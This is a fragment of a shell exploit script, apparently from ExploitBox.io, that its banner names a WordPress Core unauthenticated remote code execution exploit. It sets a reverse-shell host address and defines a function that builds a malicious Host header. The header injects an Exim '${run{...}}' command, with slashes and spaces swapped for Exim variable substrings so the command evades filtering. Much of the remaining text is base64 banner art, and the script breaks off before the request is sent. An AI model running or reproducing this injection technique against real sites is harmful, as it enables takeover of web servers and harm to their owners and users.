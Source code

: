 	#
	# https://ExploitBox.io
	#
	# https://twitter.com/Exploit_Box
	#
	# -----------------------------------------------------------------
	
	
	
	rev_host="192.168.57.1"
	
	function prep_host_header() {
	      cmd="$1"
	      rce_cmd="\${run{$cmd}}";
	
	      # replace / with ${substr{0}{1}{$spool_directory}}
	      #sed 's^/^${substr{0}{1}{$spool_directory}}^g'
	      rce_cmd="`echo $rce_cmd | sed 's^/^\${substr{0}{1}{\$spool_directory}}^g'`"
	
	      # replace ' ' (space) with
	      #sed 's^ ^${substr{10}{1}{$tod_log}}$^g'
	      rce_cmd="`echo $rce_cmd | sed 's^ ^\${substr{10}{1}{\$tod_log}}^g'`"
	      #return "target(any -froot@localhost -be $rce_cmd null)"
	      host_header="target(any -froot@localhost -be $rce_cmd null)"
	      return 0
	}
	
	
	#cat exploitbox.ans
	intro="
	DQobWzBtIBtbMjFDG1sxOzM0bSAgICAuO2xjJw0KG1swbSAbWzIxQxtbMTszNG0uLGNka2tPT09r
	bzsuDQobWzBtICAgX19fX19fXxtbOEMbWzE7MzRtLiwgG1swbV9fX19fX19fG1s1Q19fX19fX19f
	G1s2Q19fX19fX18NCiAgIFwgIF9fXy9fIF9fX18gG1sxOzM0bScbWzBtX19fXBtbNkMvX19fX19c
	G1s2Q19fX19fX19cXyAgIF8vXw0KICAgLyAgXy8gICBcXCAgIFwvICAgLyAgIF9fLxtbNUMvLyAg
	IHwgIFxfX19fXy8vG1s3Q1wNCiAgL19fX19fX19fXz4+G1s2QzwgX18vICAvICAgIC8tXCBfX19f
	IC8bWzVDXCBfX19fX19fLw0KIBtbMTFDPF9fXy9cX19fPiAgICAvX19fX19fX18vICAgIC9fX19f
	X19fPg0KIBtbNkMbWzE7MzRtLmRkYzssLDpjOy4bWzlDG1swbSxjOhtbOUMbWzM0bS5jeHhjOjs6
	b3g6DQobWzM3bSAbWzZDG1sxOzM0bS5keHh4eG8sG1s1QxtbMG0uLCAgICxrTU1NMDouICAuLBtb
	NUMbWzM0bS5seHh4eHg6DQobWzM3bSAbWzZDG1sxOzM0bS5keHh4eHhjG1s1QxtbMG1sVy4gb01N
	TU1NTU1LICBkMBtbNUMbWzM0bS54eHh4eHg6DQobWzM3bSAbWzZDG1sxOzM0bS5keHh4eHhjG1s1
	QxtbMG0uMGsuLEtXTU1NV05vIDpYOhtbNUMbWzM0bS54eHh4eHg6DQobWzM3bSAbWzZDLhtbMTsz
	NG1keHh4eHhjG1s2QxtbMG0ueE4weHh4eHh4eGtYSywbWzZDG1szNG0ueHh4eHh4Og0KG1szN20g
	G1s2Qy4bWzE7MzRtZHh4eHh4YyAgICAbWzBtbGRkT01NTU1XZDBNTU1NS2RkZC4gICAbWzM0bS54
	eHh4eHg6DQobWzM3bSAbWzZDG1sxOzM0bS5keHh4eHhjG1s2QxtbMG0uY05NTU1OLm9NTU1NeCcb
	WzZDG1szNG0ueHh4eHh4Og0KG1szN20gG1s2QxtbMTszNG0uZHh4eHh4YxtbNUMbWzBtbEtvO2RO
	TU4ub01NMDs6T2suICAgIBtbMzRtJ3h4eHh4eDoNChtbMzdtIBtbNkMbWzE7MzRtLmR4eHh4eGMg
	ICAgG1swbTtNYyAgIC5seC46bywgICAgS2wgICAgG1szNG0neHh4eHh4Og0KG1szN20gG1s2Qxtb
	MTszNG0uZHh4eHh4ZGw7LiAuLBtbMTVDG1swOzM0bS4uIC47Y2R4eHh4eHg6DQobWzM3bSAbWzZD
	G1sxOzM0bS5keHh4eCAbWzBtX19fX19fX18bWzEwQ19fX18gIF9fX19fIBtbMzRteHh4eHg6DQob
	WzM3bSAbWzdDG1sxOzM0bS4nOm94IBtbMG1cG1s2Qy9fIF9fX19fX19fXCAgIFwvICAgIC8gG1sz
	NG14eGMsLg0KG1szN20gG1sxMUMbWzE7MzRtLiAbWzBtLxtbNUMvICBcXBtbOEM+G1s3QzwgIBtb
	MzRteCwNChtbMzdtIBtbMTJDLxtbMTBDLyAgIHwgICAvICAgL1wgICAgXA0KIBtbMTJDXF9fX19f
	X19fXzxfX19fX19fPF9fX18+IFxfX19fPg0KIBtbMjFDG1sxOzM0bS4nOm9keC4bWzA7MzRtY2t4
	bCwuDQobWzM3bSAbWzI1QxtbMTszNG0uLC4bWzA7MzRtJy4NChtbMzdtIA0K"
	intro2="
	ICAgICAgICAgICAgICAgICAgIBtbNDRtfCBFeHBsb2l0Qm94LmlvIHwbWzBtCgobWzk0bSsgLS09
	fBtbMG0gG1s5MW1Xb3JkcHJlc3MgQ29yZSAtIFVuYXV0aGVudGljYXRlZCBSQ0UgRXhwbG9pdBtb
	MG0gIBtbOTRtfBtbMG0KG1s5NG0rIC0tPXwbWzBtICAgICAgICAgICAgICAgICAgICAgICAgICAg